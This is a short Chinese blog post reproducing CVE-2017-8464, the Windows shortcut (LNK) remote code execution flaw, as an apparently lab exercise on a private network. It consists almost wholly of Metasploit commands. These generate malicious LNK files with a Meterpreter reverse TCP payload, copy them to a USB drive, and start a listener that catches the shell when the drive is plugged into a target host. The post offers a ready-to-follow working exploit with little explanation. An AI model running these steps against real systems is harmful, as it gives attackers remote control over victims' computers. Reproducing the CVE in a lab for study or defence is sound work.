



# CVE-2017-8464(震网三代)复现 - Sch01aR# - 博客园

> 原文：[`www.cnblogs.com/sch01ar/p/7787682.html`](https://www.cnblogs.com/sch01ar/p/7787682.html)

开启 msf

```
root@sch01ar:~# msfconsole

```

 设置模块

```
msf > use exploit/windows/fileformat/cve_2017_8464_lnk_rce

```

 设置 payload

```
msf exploit(cve_2017_8464_lnk_rce) > set payload windows/x64/meterpreter/reverse_tcp

```

 show options



设置监听的 ip

```
msf exploit(cve_2017_8464_lnk_rce) > set lhost 192.168.220.131

```

 生成文件

```
msf exploit(cve_2017_8464_lnk_rce) > exploit

```

 

打开文件的文件夹

```
root@sch01ar:~# xdg-open /root/.msf4/local

```

 

把这些复制到 U 盘里，开启监听

```
msf exploit(cve_2017_8464_lnk_rce) > use multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.220.131
msf exploit(handler) > exploit

```

 把 U 盘插到目标主机


